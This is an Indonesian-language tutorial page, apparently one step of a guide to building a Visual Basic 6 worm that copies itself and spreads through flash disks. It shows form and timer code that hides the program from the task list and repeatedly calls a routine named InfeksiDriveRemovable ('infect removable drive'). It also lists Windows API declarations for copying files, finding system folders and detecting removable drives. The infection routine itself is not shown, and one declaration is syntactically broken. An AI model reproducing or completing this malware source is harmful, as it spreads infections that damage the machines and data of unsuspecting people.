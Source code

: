  
  
  

Penggunaan Timer Untuk Mendukung Proses Penggandaan File dan Penyebaran Melalui Flash Disk

  
Kemudian masukkan Source Code dibawah ini pada **Form dan Control Timer**:  

**Code pada Form**: 

Private Sub Form\_Load()  
App.TaskVisible = False  
Main  
End Sub

**Code pada Control Timer**: 

Private Sub Timer1\_Timer()  
Label1.Caption = Time()  
InfeksiDriveRemovable  
End Sub

  
Kemudian Buatlah Modul, **Project - Add Module**  

**Modul 1**: 

Public Declare Function CopyFile Lib "kernel32" Alias "CopyFileA" \_  
(ByVal lpExistingFileName As String, ByVal lpNewFileName As String, \_  
ByVal bFailIfExists As Long) As Long

**Modul 2**: 

Public Declare Function SHGetSpecialFolderLocation Lib "shell32.dll" \_  
ByVal hwndOwner As Long, ByVal nFolder As Long, pidl As ITEMIDLIST) \_  
As Long

**Modul 3**: 

Public Declare Function SHGetPathFromIDList Lib "shell32.dll" \_  
Alias "SHGetPathFromIDListA" \_  
(ByVal pidl As Long, ByVal pszPath As String) \_  
As Long

**Modul 4**: 

Public Declare Function GetSystemDirectory Lib "kernel32.dll" \_  
Alias "GetSystemDirectoryA" \_  
(ByVal lpBuffer As String, ByVal nSize As Long) \_  
As Long

**Modul 5**: 

Public Declare Function GetWindowsDirectory Lib "kernel32.dll" \_  
Alias "GetWindowsDirectoryA" \_  
(ByVal lpBuffer As String, ByVal nSize As Long) \_  
As Long

**Modul 6**: 

Public Declare Function GetDriveType Lib "kernel32" Alias "GetDriveTypeA" \_  
(ByVal nDrive As String) \_  
As Long
